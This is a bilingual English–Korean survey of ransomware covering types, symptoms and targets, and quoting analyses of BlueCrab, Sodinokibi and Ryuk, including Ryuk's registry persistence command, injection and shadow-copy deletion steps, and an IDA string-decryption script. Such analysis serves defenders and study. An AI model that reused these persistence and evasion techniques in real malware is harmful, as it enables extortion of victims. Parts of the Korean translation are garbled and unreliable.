# Ransomware Survey

> Ransomware is a type of malware that denies access to user files, sometimes encrypting the entire hard drive and even all the attached external hard drives and network shares, after which it demands a ransom from the user to regain access to the system and stored information.

랜섬웨어는 사용자 파일에 대한 액세스를 부정하는 악성코드의 일종으로, 때로는 하드 드라이브 전체와 첨부된 모든 외장 하드 드라이브 및 네트워크 공유까지 암호화한 뒤, 시스템 액세스와 저장된 정보를 되찾기 위해 사용자에게 몸값을 요구한다.

<br/>

<br/>

## Table of Contents

### **Ransomware Revealed**

- [**Ransomware Types**](#●-Ransomware-Types)
  - **Locker Ransomware**
   - **Crypto Ransomware**
- [**Differences Between Ransomware and Other Malware Types**](#●-Differences-Between-Ransomware-and-Other-Malware-Types)
- **Ransomware Symptoms**
- **Primary Targets of Ransomware Attacks**
- [**Ransomware Families**](#●-Ransomware-Families-(The-Most-Prominent-Ransomware-Strains))
  - ***BlueCrab (2019)***
  - ***Sodinokibi (2019)***
  - **Sodinokibi ransomware can now encrypt open and locked files | May 10, 2020**
  - ***GANDCRAB v5.0.2 (2018)***
  - [***Ryuk (2018)***](#○-Ryuk-(2018))
    - **Ryuk Ransomware: A Targeted Campaign Break-Down | August 20, 2018**
    - **Hermes ransomware distributed to South Koreans via recent Flash zero-day**
  - [***WannaCry (2017)***](#○-WannaCry-(2017))
  - [***Cerber (2016)***](#○-Cerber-(2016))
  - ***Locky (2016)***
  - [***Petya (2016)***](#○-Petya-(2016))
  - ***SamSam (2016)***
  - [***TeslaCrypt (2016)***](#○-TeslaCrypt-(2016))
    - **TeslaCrypt shuts down and Releases Master Decryption Key | May 18, 2016**
    - **https://github.com/Googulator/TeslaCrack**
- **More Materials** 
  - [**(2017, 3p) A brief study of Wannacry Threat: Ransomware Attack**](#○-(2017)-A-brief-study-of-Wannacry-Threat:-Ransomware-Attack)
  - **(2017, 12p) Ransomware: A Survey and Trends | Journal of Information Assurance and Security**
  - **(2017, 13p) PayBreak: Defense Against Cryptographic Ransomware | ASIA CCS '17**
    - **Alma ransomware: Analysis of a new ransomware threat (and a decrypter!). | Aug 24, '16**
  - **(2018, 12p) Towards Data Resilience: The Analytical Case of Crypto Ransomware Data Recovery Techniques**
  - **(2018, 9p) Detection and Analysis Cerber Ransomware Based on Network Forensics Behavior**
  - **(2018, 5p) The WannaCry Ransomeware, A Mega Cyber Attack and Their Consequences on the Modern India**
  - **(2019, 12p) WannaCry Ransomware: Analysis of Infection, Persistence, Recovery Prevention and Propagation Mechanisms**
  - **(2019, 16p) A Multi-Classifier Network-based Crypto Ransomware Detection System: A Case study of Locky Ransomware**
  - [**(2019, 21p) A Survey on Detection Techniques for Cryptographic Ransomware | IEEE**](#**○-(2019)-A-Survey-on-Detection-Techniques-for-Cryptographic-Ransomware-|-IEEE**)
- **More Materials (etc)** 
  - **(2016, 17p) Decryption Guide for TeslaCrypt Encrypted Files**
  - **(2016, 15p) Cerber 랜섬웨어 분석 보고서 - 소만사 악성코드 분석 센터**
  - **(2017, 14p) PETYA CYBER ATTACK - CERTMU WHITEPAPER**
  - **(2017, 13p) NARC Report - Petya-like Ransomware Analysis**
  - **(2017, 21p) WannaCry-ransomware-attack - EY**
  - **(2017, 18p) ENISA-WannaCry-v1.0 - ThaiCERT**
  - **(2017, 23p) WannaCry_Report - pandasecurity**
  - **(2018, 13p) McAfee_Labs_Threat_Advisory-Ransomware-Locky**
  - **(2018, 47p) SamSam_The Almost Six Million Dollar Ransomware - SOPHOS**
  - **(2019, 29p) How Ransomware Attacks - SOPHOS**

<br/>

-----

<br/>

### ● Ransomware Types

> There are mainly two types of ransomware: crypto and locker ransomware. However, ransomware belongs to the digital extortion category of cybercrime, which also contains other types of cyber crimes that aim to illicitly acquire or deny access to personal data in exchange for a monetary gain.

랜섬웨어는 주로 `crypto`와 `locker` 랜섬웨어 두 종류가 있다.

랜섬웨어는 사이버 범죄의 디지털 강탈 범주에 속하는데, 이 범주는 금전적 이득을 대가로 개인 데이터에 대한 접근을 불법적으로 획득하거나 거부하는 것을 목적으로 하는 다른 유형의 사이버 범죄도 포함한다.

<br/>

#### ○ Locker Ransomware

Locker ransomware works by preventing the victim from reaching their personal files through denying access to computing resources (e.g., locking the desktop or preventing the victim from logging in) and then demanding a ransom to regain access.
Compared with crypto ransomware, typical locker ransomware types deny access to personal files using relatively simple techniques that can be overcome by any technical user; as a result, locker ransomware can be removed from the infected systems without affecting the underlying operating system and personal files.

<br/>

#### ○ Crypto Ransomware

This type of ransomware encrypts all personal data on the target machine, taking it hostage until the victim pays the ransom and obtains the decryption key from the attacker.

Some variants of crypto ransomware will progressively delete hostage files or release them to the public if the victim fails to pay the ransom on time. Modern ransomware families are mainly based on this type.

It can have devastating effects, especially on corporate and government agencies, if no backup exists to restore operation to the state before the ransomware attack.

In such cases, the victim entity has only one choice to recover the lost data, which is to pay the ransom.

After the crypto ransomware installs on the target system, it will silently search for important files (based on their extensions) and begin encrypting them; the ransomware will search for files on the local hard drive and all the attached external drives/network shares.

After successfully encrypting all the computer files, the ransomware will present the user with a ransom note, showing a countdown timer and asking for payment (ransom) to regain access to hostage files.

Modern crypto ransomware requests payment mostly via the Bitcoin cryptocurrency.

The majority of crypto ransomware infections will not damage the victim’s operating system files and will leave it functional so the user can perform some basic functions, without the ability to access hostage data that has been encrypted.

<br/>

<br/>

### ● Differences Between Ransomware and Other Malware Types

>  Ransomware is a subtype of malware; however, there are many distinct characteristics that distinguish it from other malware types.

랜섬웨어는 malware의 하위 유형이지만, 다른 malware 유형과 구별되는 특징이 많다.

- Some malware types aim to steal user confidential information (e.g., usernames, passwords, keystrokes, and personal files) or to provide outsider access to the victim machine. More malicious malware types will bring damage (e.g., deleting files, changing system configurations, or reformatting and corrupting the underlying OS files) to the infected OS files, making it inoperable. Ransomware, on the other hand, encrypts victim machine files and announces its presence with a ransom note. The ultimate purpose of ransomware is to extort money from its victims without damaging the underlying OS or stored data.
- Ransomware does not require administrative privileges to encrypt files on the victim machine. Unlike other malware, which mostly requires admin access on the target machine, ransomware depends on the current permission assigned to the victim machine within the organization to encrypt all personal files, whether it is stored locally or on a network share, that this victim has access to.
- Encryption ransomware has the ability to encrypt all file types, in addition to its ability to scramble file names, making victims unaware of the actual number of files encrypted.
- Ransomware requests payments via anonymous payment methods, typically Bitcoin.
- Ransomware uses different evasion techniques to surpass security solutions like antivirus software and firewalls.
- Some ransomware types connect the victim machine to other networks of botnets to use it as a weapon in other cyberattacks.
- Ransomware can propagate across internal networks and through the Internet.
- Ransomware can steal sensitive information from the victim’s machine and send it to its operators for blackmail purposes.
- Sophisticated ransomware is location-aware, meaning that it targets victims according to their geographical area and presents ransom
  notes using the target area’s language.

<br/>

<br/>

### ● Ransomware Symptoms

> It is relatively easy to find out if you are affected by ransomware. The symptoms include the following:

랜섬웨어의 증상은 다음과 같다.

- You cannot open your files; you always receive an error message that the file you are trying to access has the wrong extension (e.g.,
  Windows asks you “How do you want to open this file?”) or it is corrupted.



- The ransomware may change your desktop wallpaper and replace it with a ransom note.
- Your computer is locked, and you cannot access your desktop. A splash screen displaying the ransom note appears instead and covers the whole screen asking you to pay a ransom within a limited time frame; otherwise, your data will get lost forever.
- A ransom note may appear in a form of a program window that does not cover the whole screen, and the user cannot close it. A countdown timer is available within this window to alert the user about the remaining time before increasing the ransom or losing the data if the user fails to pay the ransom.
- You see instruction files in all directories that contain files encrypted by the ransomware; these files have different formats such as TXT, PNG, and HTML and the name is written in capital letters (e.g., YOUR_FILES_ARE_ENCRYPTED.HTML and YOUR_FILES_ARE_ENCRYPTED.TXT).
- Your stored file names are scrambled and have a different extension or no extension at all.

<br/>

<br/>

### ● Primary Targets of Ransomware Attacks

```
Before 2015, the majority of ransomware victims were individuals; however, in 2015, ransomware operators shifted their attention to target enterprises and academic organizations to acquire more guaranteed money from their attacks.
In these cases, Microsoft Office and database files were the primary targets.
Enterprises are a big target of ransomware; however, anyone is subject to being a victim of such attacks such as celebrities, politicians, individuals, public and private organizations, and even charity and nonprofit organizations.
Ransomware campaigns are sent in bulk (for example, sending spam e-mails with a link to download the ransomware) to infect as many devices as possible.
In 2016, the healthcare industry became a top target of ransomware attacks for many reasons.
The rapid adoption of IT technology in hospitals and healthcare centers was not accompanied the necessary IT security training to combat potential cyberattacks;
in addition, the health sector is particularly sensitive to any disruption of service, which makes the healthcare industry attractive to ransomware attacks.
Ransomware infects almost all IT devices types including servers, mobile devices, and many types of IoT devices in addition to storage devices attached to victim machines such as USB sticks, SD cards, digital cameras, and external hard drives.
```

2015년 이전에는 랜섬웨어 피해자들의 대다수가 개인이었지만 2015년에는 랜섬웨어 운영자들이 공격으로부터 보장된 돈을 더 많이 획득하기 위해 대상 기업과 학회단체로 주의를 옮겼다.

이 경우 마이크로소프트 오피스와 데이터베이스 파일이 주요 대상이었다.

기업은 랜섬웨어의 큰 표적이지만 유명인사, 정치인, 개인, 공공 및 민간단체, 심지어 자선단체와 비영리단체와 같은 공격의 희생양이 될 수 있다.

랜섬웨어는 대량으로 전송되며(예를 들어 랜섬웨어 다운로드 링크가 포함된 스팸 이메일을 보내는 등) 가능한 많은 장치를 감염시킨다.

2016년 헬스케어 산업은 여러 가지 이유로 랜섬웨어 공격의 최고 대상이 됐다.

병원 및 의료 센터에서 IT 기술을 신속하게 채택한 것은 잠재적인 사이버 공격에 대처하는 데 필요한 IT 보안 교육을 동반하지 않았다.

또한 보건 분야는 특히 서비스 중단에 민감하여 의료 산업이 랜섬웨어 공격에 대상이 된다.

랜섬웨어는 USB 스틱, SD카드, 디지털카메라, 외장하드 등 피해자 기계에 부착된 저장장치 외에 서버, 모바일 기기, 다양한 유형의 IoT 기기 등 거의 모든 IT 기기 유형을 감염시킨다.


```
Most ransomware campaigns target Windows OS and Android devices because the global market share for OSs is dominated by these two operating systems, according to recent statistics published by StatCounter in January 2019.
```

StatCounter가 2019년 1월에 발표한 최근 통계에 따르면 대부분의 랜섬웨어 캠페인은 윈도우 OS와 안드로이드 기기를 대상으로 한다.

왜냐하면 OS의 세계 시장 점유율이 이 두 운영 체제가 차지하고 있기 때문이다.



```
However, this does not mean that cybercriminals do not target other device types.
According to Datto’s report “Global State of the Channel Ransomware Report 2018”, ransomware attacks on Apple OS and iOS have increased about 500 percent compared to 2017.
Legacy systems, especially industrial and healthcare equipment, that’s still in operation and cannot receive further updates (patches) are also predicted to become a top target of ransomware attacks in the future.
To conclude, the crucial factor in determining the best target of ransomware is not the type of business or the work nature of an individual.
Successful ransomware attacks rely on the type of technologies used by the victim, the level of IT knowledge, vulnerabilities existing on the victim’s computing devices and connected networks, and outdated operating systems and applications that cannot receive further updates from the manufacturer, in addition to the overall cybersecurity strategy implemented by the organization.
```

그러나 이는 사이버 범죄자가 다른 기기 유형을 대상으로 하지 않는다는 것을 의미하지는 않는다.

Datto의 '채널 랜섬웨어 보고서 2018 글로벌 상태'에 따르면 애플 OS와 iOS에 대한 랜섬웨어 공격은 2017년에 비해 약 500% 증가했다.

레거시 시스템, 특히 산업용 및 의료용 장비가 아직 가동 중이어서 추가 업데이트(패치)를 받을 수 없는 것도 향후 랜섬웨어 공격의 최우선 타깃이 될 전망이다.

결론적으로, 랜섬웨어의 최상의 목표를 결정하는 데 결정적인 요소는 사업 유형이나 개인의 업무 성격이 아니다.

성공적인 랜섬웨어 공격은 전체적인 사이버 보안 전략 외에도 피해자가 사용하는 기술 유형, IT 지식 수준, 피해자의 컴퓨팅 기기 및 연결된 네트워크에 존재하는 취약성, 제조사로부터 추가 업데이트를 받을 수 없는 구식 운영 체제 및 애플리케이션에 의존한다.

<br/>

<br/>

### ● Ransomware Families (The Most Prominent Ransomware Strains)

```
Ransomware can be classified into groups using different criteria, for example, according to its function such as whether it is a locker or encryption ransomware.
Security experts prefer to classify ransomware into families according to its code signature, which contains the sequence of commands and instructions responsible for the malicious action.
```

랜섬웨어는 `locker`인지 `encryption` 랜섬웨어인지 등의 기능에 따라 다른 기준을 사용해 그룹으로 분류할 수 있다.

보안 전문가들은 랜섬웨어의 코드 특징에 따라 군집 단위로 분류하는 것을 선호한다.

<br/>

#### ○ BlueCrab (2019)

안랩 ASEC 분석팀은 2019년 11월 6일 BlueCrab(=Sodinokibi) 과 동일한 외형정보로 국내 유포되는 신규 랜섬웨어를 발견하였다.

해당 랜섬웨어는 아래의 그림에서 처럼 wscript.exe 프로세스에 의해 생성된 것으로 확인되어 Exploit kit을 통해 유포되는 것으로 추정된다.



해당 랜섬웨어의 특징으로는 C:\드라이브는 암호화 하지않으며, D:\, E:\, F:\, I:\, U:\, G:\ 드라이브를 대상으로 암호화를 진행한다.

랜섬노트 (qrja-readme.txt) 를 띄워 사용자에게 감염 사실을 알리는 것 뿐만 아니라,

해당 랜섬 노트를 종료 시 메시지 박스(Attention!!!!!!! - Your computer is encrypted !!! For decryption see the file with instructions on your desktop !!!)를

한번 더 실행한다.





특이한 점은, 한글로 된 파일명일 경우 파일 암호화는 되지만 확장자 변경은 하지 못하는 것으로 확인된다.

감염 후, 아래의 랜섬 페이지를 통해 복구 비용을 지불하도록 하고 있으며, 금액은 1,995$(USD)로 확인되었다.



<br/>




<br/>

-----

<br/>

#### ○ Sodinokibi (2019)

##### ■ Sodinokibi ransomware can now encrypt open and locked files | May 10, 2020

**By Lawrence Abrams**

The Sodinokibi (REvil) ransomware has added a new feature that allows it to encrypt more of a victim's files, even those that are opened and locked by another process.

Some applications, such as database or mail servers, will lock files that they have open so that other programs cannot modify them. These file locks prevent the data from being corrupted by two processes writing to a file at the same time.

When a file is locked, this also prevents ransomware applications from encrypting them without first shutting down the process that locked the file.

For this reason, many ransomware infections will attempt to shut down database servers, mail servers, and other applications that perform file locking before encrypting a computer.

<br/>

**Sodinokibi now automatically terminates processes locking a file**

While many ransomware attempts to shut down the most common applications that are known to lock files, they are not going to be able to shut down everyone.

In a new report by cybercrime intelligence firm Intel471, researchers have spotted that Sodinokibi is now using the Windows Restart Manager) API to close processes or shut down Windows services keeping a file open during encryption.


This API was created by Microsoft to make it easier to install software updates without performing a restart to free files that the updates need to replace.

"The Restart Manager API can eliminate or reduce the number of system restarts that are required to complete an installation or update. The primary reason software updates require a system restart during an installation or update is that some of the files that are being updated are currently being used by a running application or service. The Restart Manager enables all but the critical system services to be shut down and restarted. This frees files that are in use and allows installation operations to complete," Microsoft explains in their API documentation.

In addition to using the API while encrypting files, the ransomware developers are also using it in their decryptor. 


As noted by security researcher Vitali Kremez, in REvil Decryptor v2.2, shown above, the Windows Restart Manager API is being used to make sure no processes are keeping a file open when the decryptor tries to decrypt it.


Sodinokibi/REvil is not the first ransomware families to utilize this API in their malware as both SamsSam and LockerGoga use it as well.


Unfortunately, the use of this API by ransomware infections has both a downside and a benefit.

Victims will have an easier time decrypting files after paying a ransom, but Sodinokibi will now be able to encrypt more files, especially critical ones.

<br/>

-----

<br/>

#### ○ Ryuk (2018)

```
Ryuk is a crypto ransomware specialized in targeted attacks against enterprises that can afford to pay its relatively big Bitcoin ransom (15 BTC to 50 BTC).
First appearing in August 2018, Ryuk is connected to the APT Lazarus hacking group, which is associated with the North Korean army.
After dissimilating its source code, security researchers at Checkpoint found that Ryuk shares many similarities with the Hermes ransomware strain1 (both use a similar encryption routine) that was first discovered in February 2017 and that uses spam campaigns and exploit kits to infect its victims.
```

Ryuk는 상대적으로 큰 비트코인 몸값(15BTC~50BTC)을 지불할 여력이 있는 기업을 대상으로 한 표적형 공격 전문 크립토 랜섬웨어다.

Ryuk는 2018년 8월 처음 등장, 북한군과 연관된 APT 라자러스 해킹그룹과 연결돼 있다.

Checkpoint 보안 연구진은 Ryuk가 2017년 2월 처음 발견된 헤르메스 랜섬웨어 변형1(둘 다 유사한 암호화 루틴을 사용)과 많은 유사점을 공유하며 스팸 캠페인과 악용 키트를 이용해 피해자를 감염시킨다는 사실을 밝혀냈다.


<br/>

------

<br/>

##### ■ Ryuk Ransomware: A Targeted Campaign Break-Down | August 20, 2018

**Research by: Itay Cohen, Ben Herzog**

Over the past two weeks, Ryuk, a targeted and well-planned Ransomware, has attacked various organizations worldwide. So far the campaign has targeted several enterprises, while encrypting hundreds of PC, storage and data centers in each infected company.

While the ransomware’s technical capabilities are relatively low, at least three organizations in the US and worldwide were severely hit by the malware. Furthermore, some organizations paid an exceptionally large ransom in order to retrieve their files. Although the ransom amount itself varies among the victims (ranging between 15 BTC to 50 BTC) it has already netted the attackers over $640,000.

Curiously, our research lead us to connect the nature of Ryuk’s campaign and some of its inner-workings to the HERMES ransomware, a malware commonly attributed to the notorious North Korean APT Lazarus Group, which was also used in massive targeted attacks. This leads us to believe that the current wave of targeted attacks using Ryuk may either be the work of the HERMES operators, the allegedly North Korean group, or the work of an actor who has obtained the HERMES source code.

In the below analysis we review the highly targeted attacks that Ryuk has been involved in and make a detailed comparison between it and the notorious HERMES ransomware used in other operations. We also address the financial aspects of the campaign and illustrate how, through tracking the money trail, Ryuk’s authors seem to want to disguise their received payments by dividing and transferring them among multiple wallets.

<br/>

>지난 2주 동안 표적형 랜섬웨어로 잘 계획된 류크는 전 세계 여러 조직을 공격했다.
>
>지금까지 이 캠페인은 감염된 각 회사의 수백 개의 PC, 스토리지 및 데이터 센터를 암호화하면서 여러 기업을 대상으로 했다.
>
>랜섬웨어의 기술력은 상대적으로 낮은 반면 미국과 전 세계 최소 3개 기관이 악성코드에 심한 타격을 입었다.
>
>게다가, 일부 단체들은 그들의 파일을 되찾기 위해 예외적으로 큰 몸값을 지불했다.
>
>몸값 자체는 피해자마다 다르지만(BTC 15~50BTC 범위) 이미 64만 달러가 넘는 공격수를 순매도시켰다.
>
>신기하게도 Ryuk의 캠페인의 성격과 그 내면의 일부 작업을 헤르메스 랜섬웨어와 연결시켜주는데,
>
>이것은 또한 대규모 표적형 공격에도 사용되었던 악명 높은 북한 APT 라자루스 그룹의 소행으로 일반적으로 기인하는 악성 프로그램이다.
>
>이를 통해 류크를 이용한 표적형 공격의 현재 물결은 헤르메스 운영자, 북한 단체로 추정되는 이들의 소행일 수도 있고, 헤르메스 소스코드를 획득한 배우의 소행일 수도 있다고 믿게 된다.

<br/>

**An Overview of Ryuk**

Unlike the common ransomware, systematically distributed via massive spam campaigns and exploit kits, Ryuk is used exclusively for tailored attacks. In fact, its encryption scheme is intentionally built for small-scale operations, such that only crucial assets and resources are infected in each targeted network with its infection and distribution carried out manually by the attackers.

This, of course, means extensive network mapping, hacking and credential collection is required and takes place prior to each operation. Its alleged attribution to Lazarus Group, discussed later in this post, may imply that the attackers are already well experienced in the targeted attacks domain, as seen by attacks such as the breach of Sony Pictures in 2014.

<br/>

**Ryuk’s Ransom Note**

While no differences were found in the collected samples, two versions of ransom notes were sent to victims; a longer, well-worded and nicely phrased note, which led to the highest recorded payment of 50 BTC (around $320,000), and a shorter, more blunt note, which was sent to various other organizations and also led to some fine ransom payments ranging between 15-35 BTC (up to $224,000). This could imply there may be two levels of offensive.

<br/>

**Ryuk vs HERMES**

The HERMES ransomware first gained publicity in October 2017 when it was used as part of the targeted attack against the Far Eastern International Bank (FEIB) in Taiwan. In that attack, commonly attributed to the Lazarus Group, a hefty $60 million was stolen in a sophisticated SWIFT attack, though was later retrieved. In this case, it seems the HERMES ransomware was delivered to the bank network as a diversion.

In the case of Ryuk, however, there is no doubt that the latest ransomware attacks seen over the past two weeks are by no means just a side-show but rather the main act. Indeed, with ransom payment as high as those already paid, Ryuk is definitely getting hitting the right note amongst its audience, or rather its victims.

The following technical comparison of Ryuk and HERMES leads us to believe that whoever wrote the malware was either in possession of the HERMES ransomware source code or is possibly even the same threat actor reusing code for yet another round of targeted attacks.

<br/>

**Malware Comparison**

An interesting finding that arises when inspecting Ryuk’s code is that its encryption logic resembles that found in the HERMES ransomware, as outlined previously by Malwarebytes.

Indeed, if we compare the function that encrypts a single file, we see much similarity in its structure, as depicted in the following call flow graphs:


In fact, it seems that the author of Ryuk did not even bother to change the marker in the encrypted files as the code used to generate, place and verify this marker in order to determine if a file was already encrypted are identical in both malwares:


Additionally, the function that invokes the aforementioned routine conducts very similar actions in both cases. For instance, both whitelist similar folders (e.g. “Ahnlab”, “Microsoft”, “$Recycle.Bin” etc.) to avoid file encryption of files stored in them. Also, both write a batch script named “window.bat” in the same path, with a similar script used to delete shadow volumes and backup files. Likewise, in both cases there are files dropped to disk (“PUBLIC” and “UNIQUE_ID_DO_NOT_REMOVE”) which resemble in name and purpose.

It should also be noted that all the above logic is preserved in both the 32 and 64 bit versions of Ryuk that we had samples of. Such similarity of code across different architectures might well be a sign of an underlying identical source code.

<br/>

**Technical Analysis**

**The Dropper**

The dropper of Ryuk is simple and fairly straightforward. It contains 32 and 64 bit modules of the ransomware, embedded one after the other in the dropper’s binary. At the beginning of its execution, the dropper generates a 5-lettered random file name using the *srand* function and *GetTickCount* for seed generation.

The aforementioned payload files are then written to a directory, depending on the version of Windows on victim’s computer. If the version is Windows XP or Windows 2000, the file is created in the directory “\Documents and Settings\Default User\”, otherwise it is created in “\users\Public\”.

If the file creation fails, the dropper attempts to write it in its own directory, using its own name and appending the letter ‘V’ as the last character.

After creating the file, the dropper then checks whether the process is run under Wow64, and writes the suitable payload (32 or 64 bit) depending on the result of the check.

Finally, before terminating, the dropper calls *ShellExecuteW* to execute the Ryuk ransomware payload it has just written.

<br/>

**Ransomware Binary**

Upon execution, the Ryuk ransomware conducts a *Sleep* of several seconds and then checks whether it was executed with an argument. If such was passed, it will use it as a path to a file that is deleted using *DeleteFileW*. Based on the malware’s dropper code, this argument would be the path to the dropper itself. Following this, the ransomware will kill more than 40 processes and stop more than 180 services by executing *taskkill* and *net stop* on a list of predefined service and process names. These services and processes are mostly belonging to antivirus, database, backup and document editing software.


**Persistence & Process Enumeration**

To make sure the malware is executed after reboot, Ryuk uses a straight forward persistence technique, whereby it writes itself to the *Run* registry key using the following command:

‘reg add /C REG ADD “HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run” /v “svchos” /t REG_SZ /d’

It will then try to elevate to *SeDebugPrivilege* so as to have extended capabilities in subsequent actions and prepare for injection by forming an array of structures. Each entry in the array represents a running process in the system and contains the process’ name, PID, and a number which represents the account type of its owner (as outlined in the figure below). After putting the aforementioned process list together, Ryuk will iterate over it and try to inject a code to each process’s address space, as long as its name is not “*explorer.exe*”, “*csrss.exe*” or “*lsaas.exe*”, or is not run by NT AUTHORITY.


**The Injection Method**

Ryuk uses a rather basic injection technique, whereby it first gets a handle on the target process using *OpenProcess* and allocates a buffer in its address space using *VirtualAllocEx*. The allocated buffer would have the size of the malware’s image and would be required to be positioned at the same base address.

The malware will then write its current virtual image content into it and create a thread that will carry out some actions, as described in the next section. Note that by writing the virtual image into a requested buffer with a predefined allocation base, and with the lack of a proper code relocation procedure, Ryuk is taking the risk that the requested address is not available for allocation, thus causing a potential failure in the execution of the injected code.



**The Injected Code**

The injected code holds the core functionality used by the ransomware for file encryption. It is started by decrypting a list of API function name strings using a predefined key and an array of the string lengths which is then used to dynamically load the corresponding functions.

In order to ease the decryption process during analysis, we created an IDA Python script that will automatically decrypt these strings and rename the relevant variables. The script can be found in the Appendix below.

Following this, the malware will attempt to write a dummy file to the Windows directory, which would only be allowed with Admin privileges. If the creation of the file failed, it will sleep for a while and attempt the same another five times. If failure persists beyond these attempts, Ryuk will simply terminate.

If the file was successfully created, it will write two more files to a subfolder in the Windows directory. The first is a file named “PUBLIC” which contains an RSA Public key, and the second is “UNIQUE_ID_DO_NOT_REMOVE” that contains a hardcoded key. Both are leveraged for the purpose of encryption as outlined in the following section.

<br/>

**The Encryption Scheme**

The ransomware uses a relatively straightforward three-tier trust model. At the root of the trust model, as is typical in robust ransomware implementations, is the global RSA key pair held by the attackers. The private key from this key pair is not visible to the victim at any point during infection.

The second tier is a per-victim RSA keypair. Typically a ransomware would generate this keypair on-the-fly, and then immediately encrypt the resulting private key using the higher-tier global key. Instead, the ransomware comes with this keypair pre-embedded and the private key pre-encrypted. This is a somewhat unorthodox approach, which may be vulnerable to a ‘pay-once, decrypt-many’ attack if the same sample is used to infect multiple victims, or if the same keypair is embedded in multiple samples.  But given that a fresh key pair is generated for each new sample, it is a secure model.



The third tier is a standard AES symmetric encryption key generated per victim file using the Win32API function CryptGenKey. The key is then exported using CryptExportKey, encrypted using the second-tier key, and the encrypted result appended to the encrypted file. In a truly extraordinary turn of events, the authors actually read the documentation of CryptExportKey and provided the second-tier key as the hExpKey parameter, which is there exactly to provide this functionality. Most ransomware exports the AES key in plain and then encrypts the result using CryptEncrypt, or some such.



Once all cryptographic primitives are in place, the ransomware performs a standard recursive sweep of every drive and network share on the victim system, and encrypts every file and directory except for any file or directory containing text from a hardcoded whitelist, which includes “Windows”, “Mozilla”, “Chrome”, “RecycleBin” and “Ahnlab”. It’s clear why the attackers would want the victim’s web browser intact given that it may be required for reading the ransom note, purchasing cryptocurrency and so on. But it is less clear why the attackers are concerned with encrypting the victim’s copy of a South Korean endpoint protection product, especially given that this attack wasn’t even targeted at South Korean users.

This bit in particular is one piece of a larger puzzle of how the HERMES ransomware came to be re-used and rebranded as “Ryuk” ransomware. Apart from the obvious re-labeling in the readme file and so on, there are subtle differences in the trust model.

According to a report by Malwarebytes, the original HERMES actually generated the tier-two per-victim RSA keypairs, as opposed to embedding hard-coded copies in the malware samples. But the encryption function itself, including the encrypted file format and its associated unique “HERMES” file magic, are reproduced wholesale in the rebranded version; as is the check for “AhnLab”-related files, which isn’t even relevant to Ryuk’s intended victims.


In addition to local drives, Ryuk will also try to encrypt network resources. First, it will start their enumeration by calling *WNetOpenEnum*, and then allocate a zero-initialized buffer. This buffer will be filled throughout a call to the *WNetEnumResource* function. If the enumerated resource is a container for other resources, the ransomware will call its network resources enumeration function recursively.

For each network resource found by Ryuk, the resource’s name will be appended and separated with a semicolon to a list that will later be used to encrypt these network resources.

Finally, Ryuk will destroy its encryption key and execute a .BAT file that will delete shadow copies and various backup files from the disk.



**Following the Money**

Ryuk ransomware has not been widely distributed. Similarly to its forefather, HERMES, it has only been used in targeted attacks, which makes it a lot harder to track the malware author’s activities and revenues. Almost each malware sample was provided a unique wallet and shortly after the ransom payment was made, the funds were divided and transmitted through multiple other accounts.

However, examining the currency transactions directly from the wallet provided in the ransom note onwards exposed a pattern, which enabled us to pinpoint wallets that would most likely be used for monetization. We were also able to spot a connection between these wallets, as funds paid to them were transferred to several key wallets at a certain point. This may indicate that a coordinated operation, in which several companies have been carefully targeted, is currently taking place using the Ryuk ransomware.

After a ransom payment was made to a preassigned wallet, some 25% of the funds (a round amount such as 10 or 12.5 BTC) are transferred to a new wallet. These funds can still be found at that same new wallet that was created for them. We can assume that these wallets will later be cashed out. The remaining amount, indeed the majority of the original amount, is also transferred to a new wallet; however, the remaining funds are split and relocated again – some 25% of it is transferred to a new wallet in which it would remain, with the other funds split again, and so on.

Interestingly, several wallets were used more than others, as several transactions originating in different ransom payments were made to them. These key wallets were in fact the link between the original ransom payments, and enabled us to measure the extent of these coordinated targeted attacks delivering the Ryuk ransomware. The pattern we uncovered is presented in the chart below.


**Conclusions**

From the exploitation phase through to the encryption process and up to the ransom demand itself, the carefully operated Ryuk campaign is targeting enterprises that are capable of paying a lot of money in order to get back on track.

Both the nature of the attack and the malware’s own inner workings tie Ryuk to the HERMES ransomware and arouse curiosity regarding the identity of the group behind it and its connection to the Lazarus Group. After succeeding with infecting and getting paid some $640,000, we believe that this is not the end of this campaign and that additional organizations are likely to fall victim to Ryuk.

Check Point’s SandBlast Agent Anti-Ransomware product protects against Ryuk ransomware. Here is a forensics report of Ryuk, triggered by SandBlast Agent Anti-Ransomware.

<br/>

**Appendix**

String decryption Python code:

```python
""" Ryuk strings decrypter
This is an IDA Python based script which can be used to decrypt the encrypted
API strings in recent Ryuk ransomware samples. After the decryption, the 
script will rename the encrypted string in order to ease analysis.

Ryuk sha-256: 8d3f68b16f0710f858d8c1d2c699260e6f43161a5510abb0e7ba567bd72c965b
"""

__author__  = "Itay Cohen, aka @megabeets_"
__company__ = "Check Point Software Technologies Ltd"

import idc
from idaapi import *

def decryptStrings (verbose = True):

    encrypted_strings_array =   0x1400280D0
    lengths_array =             0x1400208B0
    num_of_encrypted_strings =  68
    key =                       'bZIiQ'
if verbose:
        print ("[!] Starting to decrypt the strings\n\n")
    	
    # Iterate over the encrypted strings array
    for i in range(num_of_encrypted_strings):

        # Get the length of the encrypted string
        string_length = idc.Dword(lengths_array + i*4)
        
        # Get the offset of the encrypted string
        string_offset = encrypted_strings_array + i*50
        
        # Read  bytes from 
        # For IDA version < 7, use get_many_bytes()
        encrypted_buffer = get_bytes(string_offset, string_length)
        decrypted_string = ''
        
        # Decrypt the bytes and save it to 
        for idx, val in enumerate(encrypted_buffer):
            decrypted_string += chr( ord(val) ^ ord(key [idx % len(key)]))
        
        # Set name for the string variable in IDA
        idc.MakeName (string_offset, "dec_" + decrypted_string)
        
        # Print to the ouput window
        if verbose:
            print("0x%x : %s" % (string_offset, decrypted_string,))

    if verbose:
        print ("\n[!] Done.")
        

# Execute the decryption function
decryptStrings()
```

<br/>

**Ryuk Ransomware hashes (MD5):**

c0202cf6aeab8437c638533d14563d35

d348f536e214a47655af387408b4fca5

958c594909933d4c82e93c22850194aa

86c314bc2dc37ba84f7364acd5108c2b

29340643ca2e6677c19e1d3bf351d654

cb0c1248d3899358a375888bb4e8f3fe

1354ac0d5be0c8d03f4e3aba78d2223e

 <br/>

**Malware Dropper hashes (MD5):**

5ac0f050f93f86e69026faea1fbb4450

<br/>

-------

<br/>

##### ■ Hermes ransomware distributed to South Koreans via recent Flash zero-day

Posted: March 14, 2018 by Malwarebytes Labs

